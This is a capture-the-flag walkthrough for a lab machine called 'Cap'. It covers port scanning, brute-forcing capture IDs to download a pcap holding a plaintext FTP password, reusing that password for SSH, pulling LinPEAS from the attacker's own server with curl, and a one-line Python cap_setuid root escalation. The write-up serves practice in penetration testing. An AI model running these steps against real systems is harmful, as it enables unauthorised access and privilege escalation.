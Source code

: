 ## ------------>> Cap <<--------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.245 -p-
-----

    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-07 06:07 UTC
    Stats: 0:15:00 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
    NSE Timing: About 99.51% done; ETC: 06:22 (0:00:00 remaining)
    Nmap scan report for 10.10.10.245
    Host is up (0.30s latency).
    Not shown: 65521 closed ports
    PORT      STATE    SERVICE          VERSION
    21/tcp    open     ftp              vsftpd 3.0.3
    22/tcp    open     ssh              OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
    |   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
    |_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
    80/tcp    open     http             gunicorn
    | fingerprint-strings: 
    |   FourOhFourRequest: 
    |     HTTP/1.0 404 NOT FOUND
    |     Server: gunicorn
    |     Date: Sat, 07 Aug 2021 06:21:59 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 232
    |     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
    |     <title>404 Not Found</title>
    |     <h1>Not Found</h1>
    |     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
    |   GetRequest: 
    |     HTTP/1.0 200 OK
    |     Server: gunicorn
    |     Date: Sat, 07 Aug 2021 06:21:52 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 19386
    |     <!DOCTYPE html>
    |     <html class="no-js" lang="en">
    |     <head>
    |     <meta charset="utf-8">
    |     <meta http-equiv="x-ua-compatible" content="ie=edge">
    |     <title>Security Dashboard</title>
    |     <meta name="viewport" content="width=device-width, initial-scale=1">
    |     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
    |     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
    |     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
    |     <link rel="stylesheet" href="/static/css/themify-icons.css">
    |     <link rel="stylesheet" href="/static/css/metisMenu.css">
    |     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
    |     <link rel="stylesheet" href="/static/css/slicknav.min.css">
    |     <!-- amchar
    |   HTTPOptions: 
    |     HTTP/1.0 200 OK
    |     Server: gunicorn
    |     Date: Sat, 07 Aug 2021 06:21:53 GMT
    |     Connection: close
    |     Content-Type: text/html; charset=utf-8
    |     Allow: HEAD, GET, OPTIONS
    |     Content-Length: 0
    |   RTSPRequest: 
    |     HTTP/1.1 400 Bad Request
    |     Connection: close
    |     Content-Type: text/html
    |     Content-Length: 196
    |     <html>
    |     <head>
    |     <title>Bad Request</title>
    |     </head>
    |     <body>
    |     <h1><p>Bad Request</p></h1>
    |     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
    |     </body>
    |_    </html>
    |_http-server-header: gunicorn
    |_http-title: Security Dashboard
    10000/tcp filtered snet-sensor-mgmt
    14568/tcp filtered unknown
    23192/tcp filtered unknown
    27188/tcp filtered unknown
    30770/tcp filtered unknown
    31626/tcp filtered unknown
    36496/tcp filtered unknown
    38717/tcp filtered unknown
    42666/tcp filtered unknown
    58716/tcp filtered unknown
    65119/tcp filtered unknown

// Nvigatin to http://10.10.10.245/ , we presented with security deshboard that possibly monitor the network (kind of SIEM)

![Image 1]()

// Lets search some directories with [FeroxBuster](https://github.com/epi052/feroxbuster) tool by epi052.

    $ ./feroxbuster -u http://10.10.10.245/ -w /usr/share/dirb/wordlists/big.txt -t 100
-------

     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.3.1
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://10.10.10.245/
     🚀  Threads               │ 100
     📖  Wordlist              │ /usr/share/dirb/wordlists/big.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.3.1
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Cancel Menu™
    ──────────────────────────────────────────────────
    302        4l       24w      208c http://10.10.10.245/data
    302        4l       24w      220c http://10.10.10.245/capture
    200      355l     1055w    17450c http://10.10.10.245/ip
    200      547l     2981w    40784c http://10.10.10.245/netstat
    [####################] - 33s    20468/20468   0s      found:4       errors:0      
    [####################] - 33s    20468/20468   615/s   http://10.10.10.245/

// Navigating to http://10.10.10.245/data redirects us to http://10.10.10.245/data/1 

// And its the same direction when clicking the 'Security Snapshoot' tab.

// As written that options enables to capture packages on the network for 5sec.

![Image 2]()

// Lets try to Brute Force the directories with BurpSuite Intruder

// First make wordlist with 'crunch' (filters(1 3)-from 1 digit to 3, containt only '0123456789')

    $ crunch 1 3 0123456789 > 100.txt
-----
![Image 3]()
![Image 4]()

// Focus on 200 status we get from the attack our result: 0, 1, 2, 4, 5, 11, 12, 14, 15

// Navigate to all camptures, the one waz exluded lead me to http://10.10.10.245/data/0 , and download the capture

![Image 5]()

// Since the file is .pcap we can open it with WireShark , Filter (Ctrl+f , search: 'strigs' : "pass" )

![Image 6]()

// We found FTP packet with Password !

    PASS Buck3tH4TF0RM3!

// Lets try connect to SSH since we got ssh service open the user 'nathan' from the website and the password

    nathan@cap:~$ id
    uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)

// It worked !!

// And we got user flag!

nathan@cap:~$ cat user.txt
793451.........................


### ---------Privilleges Escalation----------

// First lets run LinPEAS to enumerate the options.

// Upload file via python http server

    $ python3 -m http.server 1445
    
// now Download the file on target with curl

    nathan@cap:~$ curl http://10.10.17.8:1445/linpeas.sh --output linpeas.sh

      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  445k  100  445k    0     0   186k      0  0:00:02  0:00:02 --:--:--  185k

    nathan@cap:~$ chmod +x linpeas.sh 
    nathan@cap:~$ ./linpeas.sh 

.....

    ╔══════════╣ Capabilities

    Files with capabilities (limited to 50):
    /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
    /usr/bin/ping = cap_net_raw+ep
    /usr/bin/traceroute6.iputils = cap_net_raw+ep
    /usr/bin/mtr-packet = cap_net_raw+ep
    /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

.....

// We can see that we have python3.8 installed on system

// Check 

    nathan@cap:~$ which python3.8
    /usr/bin/python3.8

// Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/python/#capabilities) Python Capabilities

// From GTFBins: """ If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set,

    /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip

// it can be used as a backdoor to maintain privileged access by manipulating its own process UID """

    nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
    # whoami
    root

// And we got flag !!

    # cat /root/root.txt
    3f1c275015b75f596238c1085ccedd98



